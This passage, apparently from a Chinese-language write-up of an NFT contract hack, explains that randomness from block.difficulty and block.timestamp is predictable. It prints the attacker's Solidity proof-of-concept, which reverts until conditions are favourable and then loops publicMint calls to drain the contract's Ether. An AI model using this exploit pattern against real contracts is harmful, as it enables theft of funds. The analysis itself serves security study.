这里使用的是block.difficulty和block.timestamp，这两个变量都可以被预测。  
  
  
黑客的poc为：  
```
function hack(uint256 counts) public {
 require(uint256(keccak256(abi.encodePacked(block.difficulty, block.timestamp)))%2 == 1, "Not lucky");
 
 for(uint256 i=0;i < counts;i++) {
  nftAddress.call.value(10000000000000000)(bytes4(keccak256("publicMint()"));
 }
} 

```  
  
开始会计算当前区块的难度和时间戳是否满足条件，如果不满足则直接回退，等下一个区块再调用。如果满足则进行循环调用，直到掏空合约中的Ether。  
  
  
  
         
  
